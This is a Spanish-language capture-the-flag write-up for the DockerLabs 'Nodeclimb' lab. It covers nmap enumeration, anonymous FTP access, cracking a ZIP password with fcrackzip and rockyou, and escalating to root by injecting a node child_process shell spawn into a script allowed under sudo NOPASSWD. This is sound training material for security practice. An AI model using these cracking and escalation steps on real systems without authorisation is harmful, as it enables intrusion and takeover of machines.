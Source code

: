 # Nodeclimb (DockerLabs) - WriteUp

**Sitio:** DockerLabs
**Dificultad:** Fácil
**Fecha:** 12/07/2025

## Aprendizajes

* Uso de `fcrackzip` para crêckeo de ZIP protegido.
* Comprensión de escalada de privilegios cuando `sudo -l` muestra `(ALL) NOPASSWD` apuntando a un binario con un archivo específico, adaptando el payload según corresponda para evitar errores y lograr la escalada correctamente.

---

## Enumeración

**1)** Escaneo inicial:

```bash
sudo nmap -sSV -O --open 172.17.0.2
```

Puertos abiertos:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
OS: Linux
```

---

## Acceso FTP

**2)** Conexión FTP con credenciales anónimas:

```bash
ftp 172.17.0.2
```

```
user: anonymous
pass: anonymous
```

Se descarga un archivo `secretitopicaron.zip` que pide contraseña al intentar descomprimirlo.

---

## Cracking del ZIP con fcrackzip

**3)** Se utiliza fuerza bruta:

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u secretitopicaron.zip
```

**Explicación de flags:**

* `-D`: Ataque de diccionario.
* `-p`: Ruta al diccionario.
* `-u`: Intenta descomprimir con cada password para mostrar salida sólo si es exitosa.

> **Contraseña encontrada:** `password1`

Se descomprime el ZIP y se obtienen credenciales:

```
user: mario
pass: laKontraseñAmasmalotaHdelbarrioH
```

---

## Acceso por SSH y enumeración de privilegios

**4)** Conexión SSH:

```bash
ssh mario@172.17.0.2
```

Listar privilegios con:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Verificamos permisos del archivo:

```bash
ls -la /home/mario/script.js
```

```
-rw-r--r-- 1 mario mario 0 Jul  5  2024 /home/mario/script.js
```

---

## Escalada de privilegios con Node

En **GTFOBins** figura el siguiente comando para escalada con Node:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

**Importante:**

* Si `sudo -l` mostrara `sudo /usr/bin/node`, podrías ejecutar el comando entero.
* Al mostrar `sudo /usr/bin/node /home/mario/script.js`, indica que el binario apunta a ese .js, por lo que debes modificar el script directamente para inyectar el payload.

**Procedimiento:**

```bash
nano /home/mario/script.js
```

Pegar dentro:

```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Guardar y cerrar.

Ejecutar con escalada:

```bash
sudo /usr/bin/node /home/mario/script.js
```

Confirmar con:

```bash
whoami
```

Salida:

```
root
```

---

## Conclusión

* Se logró escalar privilegios a **root** mediante la modificación del archivo `script.js` ejecutado con `node` bajo `NOPASSWD`, adaptando el procedimiento según el tipo de salida de `sudo -l`.
* Se practicó crêckeo de ZIP protegido con `fcrackzip`, acceso básico por FTP anónimo, enumeración con `nmap` y se reforzó la interpretación de configuraciones de `sudo` en contextos reales de pentesting.


